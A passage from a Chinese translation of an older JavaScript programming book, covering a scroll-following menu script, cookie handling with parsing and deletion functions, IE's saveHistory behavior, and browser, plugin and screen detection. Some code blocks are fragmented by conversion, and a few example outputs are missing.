尽管实现起来很简单，但使用这种技术时菜单会出现跳动的效果。相反，我们可能希望利用 CSS2 的 **position: fixed** 属性来将导航固定在屏幕上的某个区域。遗憾的是，IE6 不支持此属性，但通过一些 CSS 技巧可以模拟实现。

重新定位代码将菜单位置调整到某个预设位置。实现非常直接。文档的 **onload** 处理程序启动一个定时器，每 30 毫秒对菜单调用一次 **makeStatic()**，而 **makeStatic()** 接受需要重新定位的元素的 **id**（或 Netscape 4 中的层 **name**）。在这个示例中，"菜单"被放置在距屏幕左上角五个像素的位置，但这个位置可以轻松更改。

为了提醒你注意基于 DHTML 的解决方案所带来的麻烦，我们不仅用 DOM 风格来实现这个特定示例，还同时使用了 IE 的 **document.all** 和 Netscape 4 的 layers 风格，以此作为基于 JavaScript 导航方案所面临挑战的最终提醒。

```html
<html>

<head>

<title>Static Menu Example</title>

<!--       do not make XHTML due to IE box model issues -->

<style type="text/css">

<!--
.menu { background: blue;  padding: 0px; margin: 0px; border-style: solid;

        border-width: 0px; border-color: lightblue; color: white;

        position: absolute; text-align: left; width: 150px;  }
-->
</style>

<script language="JavaScript" type="text/javascript">

<!--
var xoff = 5;
var yoff = 5;
function makeStatic(elementName)
{
if (document.layers)  // if ns4
{
document.layers[elementName].x = window.pageXOffset + xoff;
document.layers[elementName].y = window.pageYOffset + yoff;
}
else if (document.all)  // else if ie4+
{
document.all(elementName).style.left = document.body.scrollLeft + xoff;
document.all(elementName).style.top = document.body.scrollTop + yoff;
}
else if (document.getElementById)  // else if DOM-supporting
{
document.getElementById(elementName).style.left =
window.pageXOffset + xoff;
document.getElementById(elementName).style.top =
window.pageYOffset + yoff;
}
```


```
}
```

```
//-->
```

```
</script>
```

```
</head>
```

```
<body onload="setInterval('makeStatic(\'staticmenu\')',30)">
```

```
<layer class="menu" name="staticmenu">
```

```
<div class="menu" id="staticmenu">
```

这里是菜单内容。

```
</div>
```

```
</layer>
```

### <h1>欢迎来到我们的公司</h1>

```
<!-- 在此处包含超过一屏的内容 -->
```

```
<br><br><br><br><br><br><br


当 cookie 的域名和路径与给定 URL 匹配（在某种宽松的意义上）时，cookie 的 *name=value* 标记会被发送到服务器。如果多个 cookie 匹配，浏览器会将每个匹配项包含在以分号分隔的字符串中。例如，它可能会返回
username=fritz; favoritecolor=green; prefermenus=yes

请注意，我们在这里对浏览器如何确定匹配的过程进行了一些简化。完整详情请参阅
http://home.netscape.com/newsref/std/cookie_spec.html。一些 RFC（2109、2965，尤其是 2964）也与 cookie 技术相关，但被广泛使用的是 Netscape 规范。

#### JavaScript 中的 Cookie

cookie 的一个优点是，几乎所有支持 JavaScript 的浏览器都允许脚本访问 cookie。Cookie 通过 **Document** 对象的 **cookie** 属性暴露出来。该属性既可读又可写。

#### 设置 Cookie

当你将一个字符串赋值给 **document.cookie** 时，浏览器会将其解析为一个 cookie 并添加到其 cookie 列表中。例如，

```
document.cookie = "username=fritz; expires=Sun, 01-Dec-2005 08:00:00 GMT; path=/home";
```

会设置一个名为 *username*、值为 "fritz" 的持久 cookie，该 cookie 将于 2005 年过期，并且在对当前 Web 服务器上 "/home" 目录下的文件发出任何请求时都会被发送。每当你省略可选的 cookie 字段（如 *secure* 或 *domain*）时，浏览器会自动用合理的默认值填充它们——例如，当前 URL 的域名和当前文档的路径。可以为同一名称设置具有不同路径的多个 cookie，但不建议这样做。如果你这样做，两个值都可能出现在 cookie 字符串中，如果是这样，你就必须根据它们在字符串中的顺序来判断能否区分。尝试为不合适的域名或路径（例如，与当前 URL 无关的域名）设置 cookie 会静默失败。

浏览器使用的 cookie 解析例程假设你设置的任何 cookie 都是格式正确的。名称/值对不得包含任何空白字符、逗号或分号。使用此类字符可能会导致 cookie 被截断甚至被丢弃。通常的做法是在将可能有问题的 cookie 值设置到 cookie 之前对其进行编码。所有主流浏览器中都提供的全局 **escape()** 和 **unescape()** 方法通常足以胜任这项工作。这些函数对传入的参数字符串进行 URL 编码和 URL 解码，并返回结果。空格、逗号和分号等有问题的字符会被替换为 URL 转义码中的等效表示。例如，空格字符被编码为 %20。以下代码演示了它们的用法：

```
var problemString = "Get rid of , ; and ?";
var encodedString = escape(problemString);
alert("Encoded: " + encodedString + "\n" + "Decoded: " + unescape(encodedString));
```


当你将一个新的 cookie 值赋给 **document.cookie** 时，当前的 cookie 不会被替换。新的 cookie 会被解析，其名称/值对会被追加到列表中。例外情况是你赋值了一个与已有 cookie 同名（以及相同的域名和路径，如果它们存在的话）的新 cookie。在这种情况下，旧值会被新值替换。例如：

```
document.cookie = "username=fritz";
document.cookie = "username=thomas";
alert("Cookies: " + document.cookie);
```

结果是


#### 读取 Cookie

从前一个示例可以看出，读取 cookie 就像检查 **document.cookie** 字符串一样简单。因为浏览器会自动解析并将设置的任何 cookie 添加到此属性中，所以它始终包含当前文档的最新 cookie 名称/值对。唯一具有挑战性的部分是解析字符串以提取你感兴趣的信息。考虑以下代码：

```
document.cookie = "username=fritz";
document.cookie = "favoritecolor=green";
document.cookie = "jsprogrammer=true";
```

执行这些语句后 **document.cookie** 的值是

```
"username=fritz; favoritecolor=green; jsprogrammer=true"
```

如果你对 *favoritecolor* cookie 感兴趣，你可以手动提取 **favoritecolor=** 之后和 **; jsprogrammer=true** 之前的所有内容。然而，编写一个自动完成此操作的函数几乎总是一个好主意。

#### 解析 Cookie

以下代码解析当前的 cookie 并将它们放入一个按 *name* 索引的关联数组中。它假设浏览器符合 ECMAScript 标准（几乎所有现代浏览器都是如此）。

```
// 按 cookies["name"] = "value" 索引的关联数组
var cookies = new Object();

function extractCookies()
{
    var name, value;
    var beginning, middle, end;

    for (name in cookies)
    { // 如果当前有任何条目，先清除它们
        cookies = new Object();
        break;
    }

    beginning = 0;  // 从 cookie 字符串的开头开始
```

```
while (beginning < document.cookie.length)
{
  middle = document.cookie.indexOf('=', beginning);  // 找到下一个 =
  end = document.cookie.indexOf(';', beginning);  // 找到下一个 ;

  if (end == -1)  // 如果不存在分号，则是最后一个 cookie
    end = document.cookie.length;

  if ( (middle > end) || (middle == -1) )
  { // 如果 cookie 没有值...
    name = document.cookie.substring(beginning, end);
    value = "";
  }
  else
  { // 提取其值
    name = document.cookie.substring(beginning, middle);
    value = document.cookie.substring(middle + 1, end);
  }

  cookies[name] = unescape(value);  // 将其添加到关联数组中

  beginning = end + 2;  // 跳过空格到下一个 cookie 的开头
}
```

请注意，对一个没有通过 **escape()** 设置的字符串调用 **unescape()** 通常不会造成任何问题。Unescape 只影响 %hh 形式的子字符串，其中 *h* 是十六进制数字。

你可能会想知道前一个示例中对等号的额外检查是否必要。答案是必要的。考虑以下示例：

```
document.cookie = "first=value1"
document.cookie = "second=";
document.cookie = "third";
document.cookie = "fourth=value4";
```

```
alert("Cookies: " + document.cookie);
```

在 Internet Explorer 中，输出是


在 Netscape 6 下，输出是


如你所见，cookie 可能存在而没有显式值。此外，名为 "second" 的 cookie 在 IE 和 Netscape 下的表示方式不同。虽然你在使用 JavaScript 设置 cookie 时应始终使用完整的名称/值对，但浏览器中的一些 cookie 可能是由你无法控制的 CGI 脚本设置的。因此，编写能够处理所有可能性的 cookie 读取代码始终是一个好主意。本节中给出的 extractCookies() 函数就是此类防御性编程策略的一个很好示例。

#### 删除 Cookie

删除 cookie 的方法是设置一个同名（以及相同的域名和路径，如果它们之前被设置过的话）但过期日期设为过去的 cookie。任何过去的日期都应该有效，但程序员最常使用纪元之后的第一秒，以适应日期设置不正确的计算机。要删除一个名为 "username" 且之前没有设置域名或路径标记的 cookie，你应该编写

```
document.cookie = "username=nothing; expires=Thu, 01-Jan-1970 00:00:01 GMT";
```

此技术可以删除设置了值的 cookie，但如前所述，一些 cookie 可以没有显式值而存在。此类 cookie 需要省略等号。例如，以下代码将定义然后立即删除一个没有显式值的 cookie：

```
document.cookie = "username";
document.cookie = "username; expires=Thu, 01-Jan-1970 00:00:01 GMT";
```

考虑到防御性编程，你可能希望编写一个 deleteCookie() 函数，尝试两种技术来删除 cookie：

```
function deleteCookie(name)
{
  document.cookie = name + "=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT";
  document.cookie = name + "; expires=Thu, 01-Jan-1970 00:00:01 GMT";
}
```

请记住，如果一个 cookie 是通过 path 或 domain 信息设置的，你需要在用于删除它的 cookie 中包含这些标记。

#### 安全问题

由于 cookie 存储在用户的机器上，无法阻止用户在服务器设置 cookie 后修改其值（或创建服务器未设置的伪造值）。因此，在没有某种加密保护的情况下将敏感信息保存在 cookie 中绝不是一个好主意。例如，假设你在 cookie 中设置了某个网站的用户名。那么，在没有任何额外保护的情况下，将会

拥有 cookie `username=fritz` 的用户完全有可能将值改为 `username=thomas`，从而访问他人的账户。

保护 cookie 免受未授权修改或创建的各种技术远超本书的讨论范围。某些 Web 服务器平台（如 ASP.Net）可以自动添加保护功能，但如果你需要自行实现，则需要咨询安全专家或查阅安全书籍/网站来了解正确的做法。一个好的起点是开放 Web 应用安全项目（Open Web Application Security Project，简称 OWASP）(http://www.owasp.org/)，该组织提供了一份涵盖此问题以及更多内容的文档。

#### 使用 Cookie 进行用户状态管理

Cookie 用于存储状态信息。你可以将什么信息存储在 cookie 中以及如何使用这些信息，完全取决于你的想象力。Cookie 技术的最佳应用是根据用户的偏好或档案来增强页面展示或内容。对于网站正常运行至关重要的功能，可能不适合通过 JavaScript 操作的 cookie 来实现。例如，你可以编写功能完整的"购物车"代码，通过 JavaScript 将状态信息存储在客户端浏览器的 cookie 中。但这样做会自动阻止所有禁用 JavaScript 的用户使用你的网站。

接下来的几个小节将简要讨论一些简单的应用。我们将使用之前定义的 *extractCookies()* 函数来读取 cookie。

### 重定向

通常根据某些条件将网站访问者发送到不同页面是非常有用的。例如，首次访问者可能会被重定向到介绍页面，而回访用户则应被引导至内容页面。这很容易实现：

```javascript
// this script might go in index.html

var cookies = new Object();

// immediately set a cookie to see if they are enabled

document.cookie = "cookiesenabled=yes";


extractCookies();


if (cookies["cookiesenabled"] == "yes")

 {

   if (cookies["returninguser"] == "true")

    {

      location.href = "/content.html";

    }

   else

    {

      var expiration = new Date();

      expiration.setYear(expiration.getYear() + 2);

      // cookie expires in 2 years

document.cookie = "returninguser=true; expires=" +
    expiration.toGMTString();

location.href = "/introduction.html";
}
```

请注意脚本首先尝试设置一个 cookie，以检测用户是否启用了 cookie。如果没有启用，则不执行重定向。

##### 一次性弹出窗口

一次性弹出窗口用于在用户首次访问某个页面时向其展示信息。此类弹出窗口通常包含欢迎信息、提醒、特别优惠或配置提示。以下示例展示了一个针对"每日提示"页面的应用，该页面在每个会话中仅显示一次：

```javascript
var cookies = new Object();

document.cookie = "cookiesenabled=yes";

extractCookies();

if (cookies["cookiesenabled"] == "yes" && !cookies["has_seen_tip"])

{

    document.cookie = "has_seen_tip=true";

    window.open("/tipoftheday.html", "tipwindow", "resizable");

}
```

如果用户没有启用 cookie，我们选择不显示弹出窗口。这可以防止用户在频繁加载页面时（且 cookie 被禁用的情况下）因弹出窗口而感到困扰。

##### 自定义

Cookie 提供了一种便捷的方式来为个别用户创建定制化或个性化的页面。用户偏好可以保存在 cookie 中，并通过 JavaScript 代码检索以修改页面的样式属性。虽然 CGI 脚本经常使用 cookie 来定制内容，但在 JavaScript 中修改样式特征通常更为简单。以下示例允许用户从三种配色方案中选择一种，如图 16-6 所示。虽然这个示例相当简单，但其基本概念可用于提供非常强大的自定义功能。

图 16-6：使用 cookie 保存样式自定义

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Cookie Customization Example</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

var cookies = new Object();

function extractCookies()
{

    var name, value;

    var beginning, middle, end;

    for (name in cookies)
{
  cookies = new Object();
  break;
}

beginning = 0;

while (beginning < document.cookie.length)
{
  middle = document.cookie.indexOf('=', beginning);
  end = document.cookie.indexOf(';', beginning);

  if (end == -1)
    end = document.cookie.length;

  if ( (middle > end) || (middle == -1) )
  {
    name = document.cookie.substring(beginning, end);
    value = "";
  }

  else
  {
    name = document.cookie.substring(beginning, middle);
    value = document.cookie.substring(middle + 1, end);
  }

  cookies[name] = unescape(value);

  beginning = end + 2;
}
}

function changeColors(scheme)
{
  switch(scheme)
    {
        case "plain": foreground = "black"; background = "white"; break;

        case "ice": foreground = "lightblue"; background = "darkblue"; break;

        case "green": foreground = "white"; background = "darkgreen"; break;

        default: return;
    }


    document.bgColor = background;

    document.fgColor = foreground;
}

function changeScheme(which)
{
    document.cookie = "cookiesenabled=true";
    extractCookies();

    if (!cookies["cookiesenabled"])
    {
        alert("You need to enable cookies for this demo!");
        return;
    }

    document.cookie = "scheme=" + which;
    changeColors(which);
}
var pageLoaded = false;

extractCookies();

changeColors(cookies["scheme"]);
//-->
</script>

</head>

<body onload="pageLoaded=true">

<h1>Customization Example</h1>

<hr />

<blockquote> Where a calculator on the ENIAC is equipped with
19,000 vacuum tubes and weighs 30 tons, computers in the future may
have only 1,000 vacuum tubes and perhaps only weigh 1.5 tons.</blockquote>

<em>from Popular Mechanics, March 1949.</em>

<hr />

<form action="#" method="get">

Change Color Scheme: &nbsp; &nbsp;

<input type="button" value="plain" onclick="changeScheme('plain');" />

<input type="button" value="ice" onclick="changeScheme('ice');" />

<input type="button" value="green" onclick="changeScheme('green');" />

</form>

</body>

</html>
```

我们可以扩展此示例，使其保存选定的样式表或任何其他用户偏好。一个有趣的可能性是允许用户定义他们是否希望网站提供 DHTML 或 Flash 功能，然后将他们的偏好保存下来。

#### Cookie 的局限性

由于 cookie 在众多任务中都很有用，许多开发者倾向于将它们用于尽可能多的场景。虽然为用户提供最大程度可定制的网站是个好主意，但浏览器对你可设置的 cookie 数量和大小存在限制。违反这些限制可能导致各种后果，从静默失败到浏览器完全崩溃。你应该了解以下准则：

- 浏览器一次可以存储的 cookie 总数限制为几百个。
- 浏览器一次可以存储的来自某个特定网站的 cookie 数量通常限制为 20 个。
- 每个 cookie 通常限制为约 4,000 个字符。

为了突破每个站点 20 个 cookie 的限制，通常可以将多个值"打包"到一个 cookie 中。这样做通常需要以某种特定方式编码 cookie 值，以便于恢复打包的数据。虽然这种技术会增加每个 cookie 的大小，但它减少了所需的 cookie 总数。


### Internet Explorer 状态扩展

持久化 Cookie 仅在真正需要时才使用。在结束本章之前，我们应该了解一下仅 Internet Explorer 支持的一种特殊状态管理形式。

Internet Explorer 5 引入了一项名为 *DHTML 行为*的新技术。DHTML 行为是封装特定功能的小型组件，可以轻松添加到页面中。虽然它们从未真正流行起来，但行为的一个特别有趣之处在于它们能够在不使用 Cookie 的情况下存储客户端状态。

**saveHistory** 行为保存页面状态，以便用户返回时使用。虽然以这种方式保存的数据仅在当前浏览会话期间持续存在，但其存储容量和易用性使其成为传统 Cookie 的一个诱人替代方案。要使用此功能，您只需包含一个带有特定属性的 `<meta>` 标签。使用一个引用 **behavior:** 字符串的 **class** 的 `<style>` 允许信息的存储和检索。您希望在页面上保留的信息应该被赋予已定义行为的 **class**。

例如，以下文档将存储您在文本框中输入的任何信息，并在您返回页面时检索它。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>DHTML Behavior Example</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<meta name="save" content="history" />

<style type="text/css">

<!--

  .saveHistory {behavior:url(#default#savehistory);}

-->

</style>

</head>

<body>

<form action="#" method="get">

Enter some text to store:

<input type="text" class="saveHistory" id="persistentInput" />

</form>

<br />

When you're through, go to a different page and return.
The text will be "as you left it."

</body>

</html>
```

这仅仅是冰山一角。可以存储页面的整个状态，最多可达数百千字节的数据，并通过简单的绑定到 DHTML 行为来检索，如前所定义。虽然这种技术高度非标准，但与替代方案（例如，将您的网站接入大型数据库）所需的工作量相比，它似乎远为可取。

有关这项新技术的更多信息，包括其他有用的状态存储行为，可以在微软开发者网络（[http://msdn.microsoft.com](http://msdn.microsoft.com)）上找到。

#### 更聪明地工作，而非更努力地工作

您可能已经注意到本章的一个主题：虽然实现自己的导航增强功能很酷，但依赖第三方库来处理非平凡脚本几乎总是更有意义。要在各种平台和浏览器上使复杂的 DHTML 功能正常工作，所需的测试和跨浏览器调整工作量惊人，因此如果可能的话，让别人替您完成这项工作。

网络上有许多库可供使用。它们通常经过非常充分的测试，并支持大多数开发人员不易获得测试环境的浏览器（例如，旧版本的 IE、Safari、适用于 Macintosh 的 IE、Solaris 上的 Netscape 4、晦涩的开源浏览器等）。我们无法强调第三方 DHTML 包是多么节省时间的工具。即使是我们这些作者也会使用它们，除非有令人信服的理由不这样做。

### 小结

JavaScript 可用于实现令人惊叹的各种导航辅助功能，从简单的下拉重定向菜单系统到复杂的基于 CSS 的分层菜单。虽然这类基于 DHTML 的导航辅助功能相当强大，但 Web 开发人员需要注意，它们应尽可能适应更广泛的浏览器用户群体。让脚本在所有类型的浏览器、所有条件下工作，包括 JavaScript 被关闭的情况，需要付出相当大的努力。在[下一章](next chapter)中，我们将花时间研究浏览器检测和支持技术，以帮助克服此类障碍。

## 第 17 章：浏览器和能力检测

鉴于能够访问公共 Web 网站的浏览器种类繁多，构建适合每个用户特定浏览环境的页面将非常有用。在大多数版本的 JavaScript 下，可以检测用户的浏览器类型和版本，以及许多其他客户端特性，如屏幕大小、颜色深度、对 Java 和插件的支持。一旦检测到用户浏览器的特性，通常可以通过编写专门内容或自动将其重定向到其他位置来改善用户体验。然而，浏览器检测存在其问题，通常更好的做法是关注能力检测。就 JavaScript 而言，我们关注对象检测。这些方法结合在一起，对于希望安全地为其网站添加高级功能的开发人员非常有用。不幸的是，这些技术如果被滥用，可能导致创建"排他性"网站。浏览器检测和控制技术应该用于改善所有用户的网站使用体验，而非少数精选用户。

### 浏览器检测基础

任何构建过多个 Web 页面的人都曾遇到过浏览器类型和版本之间的众多差异。在您屏幕上看起来完美的页面在您朋友或邻居的屏幕上看起来就不太一样，有时看起来差异巨大。这些差异范围从轻微的外观不一致（如内容或容器大小的微小偏移）到灾难性情况（如页面导致错误或根本无法渲染）。

面对如此不可预测的媒介如 Web，开发人员该怎么办？有些人摊手放弃，只根据自己当前选择的浏览器来构建网站。如果您曾经在网站上注意到"此网站在……中浏览效果最佳"之类的声明，那么您已经遇到过这种方法。其他人则将其网站技术简化为所谓的最低公分母。这通常是大型网站采用的方法，它们似乎始终专注于继续满足旧版浏览器的需求，这些浏览器通常甚至不支持 CSS 或 JavaScript，在低分辨率环境下查看页面。介于这些极端之间的是一种更具适应性的网站类型，它会根据自身修改以适应浏览器的需求，或向用户指示他们无法使用该网站。这种"感知并适应"的概念通常称为*浏览器检测*或*浏览器嗅探*，是任何复杂程度 JavaScript 任务不可或缺的一部分。

#### 浏览器检测基础：Navigator 对象

JavaScript 的 **Navigator** 对象提供了指示浏览器类型以及有关访问页面的用户的其他有用信息的属性。与浏览器版本相关的最常用的 **Navigator** 属性详见表 17-1。这些属性大多与浏览器随每个请求自动传输给服务器的用户代理字符串的一部分相关。请注意，这些属性中的许多只适用于特定浏览器类型，因此开发人员应坚持使用普遍支持的 **appName**、**appVersion** 和 **userAgent** 属性。

**表 17-1：用于浏览器名称和版本检测的 Navigator 属性**

| 属性名称 | 描述 | 示例值 | 兼容性 |
|---|---|---|---|
| **appCodeName** | 包含所用浏览器的代码名称 | Mozilla | 所有支持 JS 的浏览器，但通常由于历史原因只返回"Mozilla"。 |
| **appMinorVersion** | 浏览器的子版本或升级版本 | ;SP1; | 仅 Internet Explorer。 |
| **appName** | 浏览器的官方名称 | Microsoft Internet Explorer | 所有支持 JS 的浏览器，但可能不准确，因为 Opera 和 WebTV 会伪装该值。 |
| **appVersion** | 包含浏览器的版本 | 5.0 (Windows; en-US) | 所有支持 JS 的浏览器，但可能包含比版本更多的信息，包括平台和语言类型。 |
| **userAgent** | 浏览器传输给服务器的完整用户代理值 | Mozilla/5.0 (Windows; U; WinNT4.0; en-US; m18) Gecko/20010131 Netscape6/6.01 | 所有支持 JS 的浏览器。存在疑问的是，浏览器可能伪装一个与 JavaScript 报告的值不同的值。 |
| **vendor** | 指示浏览器供应商 | Netscape6 | 仅 Netscape 6 及更高版本。 |
| **vendorSub** | 指示浏览器的版本号 | 6.01 | 仅 Netscape 6 及更高版本。 |

检查典型浏览器的用户代理会揭示各种神秘的数字和缩写。这些值中的大多数很少使用。相反，"重要的"字段（如主要版本号和操作系统）被提取出来，其余的被忽略。例如，在检测 Netscape 6 时，重要的子字符串是"Netscape 6"。开发人员通常不关心哪些特定版本的浏览器和渲染引擎（例如 Mozilla 或 Gecko）被用于该版本。

#### 浏览器检测——简介

以下简单脚本展示了 **Navigator** 属性用于浏览器检测的基本用法。它只是在屏幕上打印浏览器名称和版本值。该脚本在一些常见浏览器中的渲染示例如图 17-1 所示。


### 需要检测什么

在进行浏览器检测时，有必要了解影响网站显示方式的不同方面。我们可以将可用的可检测信息大致分为四类：

- 技术问题（例如，JavaScript 支持、Java 和插件）
- 视觉问题（例如，色深和屏幕尺寸）
- 传输问题（例如，连接速度或类型）
- 用户问题（例如，语言设置和既往访客）

我们可以使用 JavaScript 来获取这些类别中每一类的信息。只有“传输”类别存在重大挑战。我们将在本章后面简要地讨论它。首先，让我们看看通过 JavaScript 可以检测到哪些技术功能。

### 技术检测

谈到浏览器技术，你通常希望了解浏览器对以下事物的支持情况：

- 标记语言
- 样式表
- 脚本语言
- Java
- 对象技术（插件和 ActiveX 控件）

标记语言和样式表有点难以检测。你可以尝试使用 DOM 通过探测来创建特定对象或使用 **document.implementation.hasFeature( )** 方法来检查基本的标记支持。如果支持特定的 HTML 或 XML 绑定级别，此方法会返回一个布尔值，例如：

```javascript
var HTMLDOM1 = document.implementation.hasFeature('HTML', '1.0');
// 包含 true 或 false，表示是否支持 HTML 绑定
```

当然，很少有浏览器能很好地支持 DOM 技术，使其真正可靠，即使它们确实支持，这种探测实际上也说明不了特定标记或样式功能的实际支持情况。简而言之，仅仅因为你可以用 DOM 实例化一个 (X)HTML 元素并设置一些属性，并不意味着这些属性在浏览器中真的有效！目前，你还得依靠自己对浏览器支持特定版本的 HTML 或 CSS 的了解。幸运的是，我们技术列表中的其他项目可以更容易地从 JavaScript 中解决。

#### JavaScript 检测

JavaScript 支持可能是最容易检测的技术；如果脚本无法运行，这种情况就隐含地表明浏览器不支持 JavaScript 或者 JavaScript 被关闭了。考虑一下在这里使用 `<noscript>` 标签与 `<meta>` 重定向：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>JS 检查</title>

<noscript>

<meta http-equiv="Refresh" CONTENT="0; URL=noscript.html" />

</noscript>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<script type="text/javascript">

<!--

document.write("此页面已启用 JavaScript！");
// -->

</script>

</body>

</html>
```

注意：*前面的示例在 W3C 验证器中无法通过验证，因为 `<noscript>` 标签被省略了，未放置在文档的 `<head>` 中。作者认为这是由于 `<script>` 可以放在 `<head>` 中，因此这是 (X)HTML 规范中的一个疏漏，并建议使用此用法，尽管它无法通过验证。*

如果用户禁用了脚本功能，或者使用非常旧的浏览器访问该网站，他们将被重定向到您网站错误目录中的 "noscript.html" 页面，如下所示。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>错误：不支持 JavaScript</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<h1>错误：需要 JavaScript 支持</h1>

<hr/>
```


请启用JavaScript或升级您的浏览器，然后返回问题页面。

如果您认为进入此页面有误，请联系<a href="mailto:webmaster@democompany.com">Webmaster</a>。

一个更好的错误页面可以读取请求中的引用条目（使用服务器端脚本环境），记录用户来自哪个页面的信息，然后在用户纠正错误后提供返回该页面的链接。

一些开发者选择进行正向检查：使用JavaScript将用户重定向到特定页面，利用**Location**对象。例如：

```javascript
window.location="scripton.html";
```

这种方法的问题在于它往往被用作单一检测点，并且会干扰浏览器的“后退”按钮功能。第一种技术是一种更被动的方法，可以轻松包含在所有页面中，无需过多担心。

##### JavaScript版本检测

虽然检测JavaScript是否开启很容易，但版本或特性支持如何？处理不同JavaScript版本的一种方法是利用`<script>`标签的非标准**language**属性。虽然在本书的大部分内容中，我们使用了标准的**type**属性来指示正在使用的脚本语言，但**language**属性实际上很常用，并且具有一些额外的价值。回顾[第1章](link)，支持JavaScript的浏览器会忽略其不支持的`language`属性的`<script>`标签的内容。由于浏览器的行为方式如此，可以为语言的多个版本创建脚本的多个版本，或者设置一个变量来指示支持的最高版本，如本例所示：

```javascript
// JS 1.0 features
var version="1.0";
```

```javascript
// JS 1.1 features
var version="1.1";
```

```javascript
// JS 1.2 features
var version="1.2";
```

```javascript
// JS 1.5 features
var version="1.5";
```

我们甚至可以声明虚拟函数或对象，然后在更高版本中重新定义它们，以使用这种“穿透”方法避免错误。这项技术在[第23章](link)中有说明，然而穿透代码并不总是处理多个JavaScript版本的最佳方式。

**注意** *穿透技术的一个问题是，当`language`和`type`属性一起使用时，在浏览器中不能一致地受到尊重。在某些情况下，`type`会覆盖`language`，而在其他浏览器中则相反。如果使用此技术，请只使用**language**属性。*

##### JavaScript对象检测

在某些情况下，我们并不关心是否正在使用特定版本的JavaScript，而是关心是否可用某些对象或方法。例如，考虑我们在[第15章](link)中如何使用对象检测来处理图像翻滚和各种DHTML想法。我们发现，与其了解哪些浏览器支持哪些版本的JavaScript的所有细节，不如通过检查相应对象是否可用来检测功能。例如，以下脚本通过检查**image[]**集合是否已定义来查看您的浏览器是否支持翻滚图像：

```javascript
if (document.images)
   alert("Rollovers would probably work");
else
   alert("Sorry no rollovers");
```

这里我们依赖于JavaScript的动态类型转换将不存在的对象转换为**false**，如果它存在，则求值为**true**。

如前一个示例所示，对象检测是判断功能是否受支持的简单方法。然而，请注意不要过度依赖对象检测。在JavaScript中，我们常常假设一个对象的存在意味着其他对象的存在或使用特定浏览器，但情况并非总是如此。例如，我们可能使用这样的代码来检测是否正在使用Internet Explorer：

```javascript
var ie = (document.all) ? true : false;
```

但是，**document.all**的存在真的意味着正在使用Internet Explorer吗？事实是，另一个浏览器可能支持**document.all**但不一定提供Internet Explorer中的所有功能。开发人员甚至可能用他们自己的代码模拟**document.all**。考虑到所有可能的麻烦，最好针对每个对象进行具体检查，所以我们可以改为使用

```javascript
var allObject = (document.all) ? true : false;
```

```javascript
var getById = (document.getElementById) ? true : false;
```

等等。在某些方面，对象检测是使用的最佳方法，但应谨慎使用，并且不应做出假设。

关于对象检测的另一个考虑是不要操之过急。记住，探测不存在对象的属性会抛出错误，因此首先要检查对象是否存在。例如，如果你正在检查**window.screen.height**，而你只是做了

```javascript
if (window.screen.height)
    // do something
```

在不支持**Screen**对象的浏览器中，这会抛出错误。相反，您可以依赖短路求值来增量进行测试，如下所示：

```javascript
if (window.screen && window.screen.height)
    // do something
```

高级JavaScript程序员可能会发现对象检测方法很适合与**try/catch**块一起使用。

#### Java检测

使用**Navigator**方法**javaEnabled()**可以相当容易地检测Java的可用性。如果Java可用且已开启，此方法返回**true**，否则返回**false**。

```javascript
if (navigator.javaEnabled())
    // do Java stuff or write out <<applet>> tag
else
    alert("Sorry no Java");
```

一旦知道Java可用，您可以通过访问页面中包含的Java小程序来了解更多关于Java的信息。您甚至可以确定支持的Java虚拟机类型。为此，您必须访问Java小程序的公共方法和属性。与applet的交互在第18章中有更详细的讨论。

#### 插件检测

在Netscape 3+（和Opera 4+）中，浏览器中安装的每个插件在**Navigator**对象的**plugins[]**数组中都有一个条目。此数组中的每个条目都是一个**Plugin**对象，包含有关特定供应商和组件版本的信息。一个简单的检测方案使用JavaScript集合的关联数组特性来检查插件是否存在。例如，要查找Flash插件，您可以编写

```javascript
if (navigator.plugins["Shockwave Flash"])
    alert("You have Flash!");
else
    alert("Sorry no Flash");
```

```javascript
if (navigator.plugins && navigator.plugins.length)
{
    if (navigator.plugins["Shockwave Flash"])
        alert("You have Flash!");
    else
        alert("Sorry no Flash");
}
else
    alert("Undetectable: Rely on <<object>> tag");
```

幸运的是，如果正在使用Internet Explorer，我们可以依赖`<object>`标签来安装适当的对象处理器（如果用户允许的话）。有关检测和交互式对象（如Netscape插件和Microsoft ActiveX控件）的更多信息，请参阅第18章。

### 可视检测：Screen对象

**Screen**对象在4.x（及更高版本）浏览器中可用，并指示浏览器的基本屏幕特性。它实际上是**Window**对象的子对象，尽管从逻辑上讲，将其作为**Window**的父对象似乎更有意义。以下示例显示了在支持**Screen**对象的浏览器中可以检测到的常见屏幕特性。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Common Screen Properties</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<h2>Current Screen Properties</h2>
<script type="text/javascript">
<!--
if (window.screen)
{
    document.write("Height: "+screen.height+"<br />");
    document.write("Width:"+screen.width+"<br />");
```


 ```
document.write("Available Height: "+screen.availHeight+"<br />");

document.write("Available Width: "+screen.availWidth+"<br />");

document.write("Color Depth: "+screen.colorDepth+"bit<br />");

}

else

document.write("No Screen object support");

// -->

